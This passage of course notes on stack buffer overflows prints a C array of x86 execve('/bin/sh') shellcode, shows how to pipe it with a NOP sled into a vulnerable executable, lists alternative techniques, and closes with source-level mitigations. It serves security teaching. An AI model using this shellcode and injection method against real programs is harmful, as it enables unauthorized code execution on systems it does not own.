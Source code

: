```C
char shellcode[] =
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";
```

Now we can put the nop sled and the guessed address and give this in input to our program. The code is portable, it doesn't need anything except to guess the correct address to jump to.

Just one note: to actually input it to the program we need to write the actual hexadecimal values (that could be non printable characters). To do so we can use a helper program for example:

```bash
echo "our_shellcode" | ./vulnerable_executable
```
or
```bash
python -c "print 'our_shellcode'" | ./vulnerable_executable
```

### Alternative techniques
This is just a schematic list, not treated in this course
- ENVIRONMENT VARIABLES  
We can put our code in environmentaò variables and have it loaded on launch.  Then we can overwrite the return address with the address of the environment varible we set.
  - Advantages
    - easy to implement beacuse we are not constrained by the space
    - easy to target because we can know the exact address
  - Disadvantages:
    - we can only exploit if we have access to the machine and set the env
    - a wise program may wipe env. variables that he does not need
    - memory must be marked as executable (more on this in [mitigation section](#mitigations))
- BUILT-IN, EXISTING FUNCITONS  
Point the return address to some code that is already present in memory like other function or some library function.
  - Advantages:
    - works remotely and reliably
    - no need for executable stack
  - Disadvantages:
    - need to prepare the stack carefully
    - more difficult to do properly

There can also be practical problem that make the exploitation difficult or impossible, for example the buffer could be too small to fit all of our shellcode + NOP sled.

### Mitigations
We can implement some defense at different levels:

#### Source code level
- use languages with memory management like Java
- use safer libraries that check the boundaries of buffers (`strncpy`, `strncat`, etc allow to specify the maximum length to read)
- educate developers not to introduce such vulnerabilities
- use tools to find vulnerabilities in the source

